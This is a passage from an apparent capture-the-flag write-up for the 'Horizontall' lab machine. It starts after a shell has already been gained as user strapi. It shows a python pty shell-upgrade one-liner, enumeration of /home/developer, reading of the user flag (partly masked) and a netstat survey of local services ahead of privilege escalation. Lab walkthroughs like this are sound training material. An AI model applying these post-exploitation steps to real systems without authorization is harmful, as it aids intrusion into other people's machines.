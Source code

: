 We can now upgrade our shell with another simple one-liner:
```zsh
strapi@horizontall:~/myapi$ python -c 'import pty;pty.spawn("/bin/bash")'

python -c 'import pty;pty.spawn("/bin/bash")'
```

Now we can begin to perform post exploitation and enumerate the target host further. 


After some further enumeration, we are able to find some interesting files in the `/home/developer` directory:
```zsh
strapi@horizontall:~/myapi$ ls -l /home/developer

ls -l /home/developer
total 68
-rw-rw----  1 developer developer 58460 May 26  2021 composer-setup.php
drwx------ 12 developer developer  4096 May 26  2021 myproject
-r--r--r--  1 developer developer    33 Oct 20 11:42 user.txt
```

We can see that we have identified the `user.txt` flag. We can attempt to read the contents of it to obtain the flag

```zsh
strapi@horizontall:~/myapi$ cat /home/developer/user.txt

cat /home/developer/user.txt
093fd***************************
```
From this we have been able to successfully obtain the `user.txt` flag!

> **Answer: `093fd***************************`**
{: .prompt-tip }



## Root Flag
---
### Initial Enumeration


We can continue to perform enumeration on the target host to see if there are any further ways in which we can look to move laterally or escalate our privileges.

```zsh
strapi@horizontall:~/myapi$ netstat -tunlp

netstat -tunlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1963/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```